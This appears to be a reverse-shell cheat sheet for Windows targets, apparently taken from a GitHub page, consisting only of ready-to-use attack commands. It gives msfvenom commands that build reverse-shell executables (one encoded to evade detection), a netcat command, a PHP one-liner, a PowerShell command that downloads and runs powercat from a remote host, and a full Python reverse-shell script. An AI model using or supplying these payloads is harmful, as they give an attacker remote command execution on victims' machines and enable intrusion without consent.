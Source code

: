 ### revers shell

msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o sys.exe

msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -f exe -o shell.exe
```

nc
```
nc.exe IP PORT -e powershell
```

php
```
php -r '$sock=fsockopen("IP",PORT);system("powershell <&3 >&3 2>&3");'
```

powershell
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://IP:PORT/powercat.ps1');powercat -c IP -p PORT -e powershell"
```

python
```
import os,socket,subprocess,threading;
def s2p(s, p):

    while True:
        data = s.recv(1024)
        if len(data) > 0:

            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:

        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP",PORT))

p=subprocess.Popen(["powershell"], stdout=subprocess.PIPE,
stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()

except KeyboardInterrupt:
    s.close()
```
